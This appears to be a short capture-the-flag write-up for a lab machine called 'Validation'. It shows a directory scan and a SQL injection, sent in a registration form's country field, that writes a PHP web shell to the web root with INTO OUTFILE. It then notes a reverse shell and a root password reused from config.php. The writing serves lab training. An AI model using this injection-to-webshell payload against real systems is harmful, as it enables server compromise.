






# Validation

## Gaining Access

Nmap scan:



### SQL Injection for RCE

The website contains a simple register function that takes user input.


When proxying the traffic, the POST request is submitted like so:

```http
username='&country=Afganistan
```

When viewing our request, this is what we would see:



A quick directory scan reveals there is an `account.php` endpoint on the machine.

```
$ feroxbuster -u http://10.10.11.116 -x php

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.3.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.11.116
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.3.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 💲  Extensions            │ [php]
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
──────────────────────────────────────────────────
301        9l       28w      309c http://10.10.11.116/js
200        0l        0w        0c http://10.10.11.116/config.php
301        9l       28w      310c http://10.10.11.116/css
200        1l        2w       16c http://10.10.11.116/account.php
200      268l      747w        0c http://10.10.11.116/index.php
403        9l       28w      277c http://10.10.11.116/server-status
```

The `config.php` endpoint presented an empty screen, which I think we have to look into after gaining a shell. Anyways, the `account.php` file displayed an SQL error when trying to view the player I registered.



Instead of enumerating the database, I directly wrote a webshell into the page.

```http
username=a&Afganistan' UNION SELECT "<?php system($_REQUEST['cmd']); ?>" INTO OUTFILE '/var/www/html/cmd.php';#
```



Then, we can get a reverse shell and enumerate the `config.php` file we saw earlier.

## Privilege Escalation

Within the config file, there was a password, which happened to be the root password.




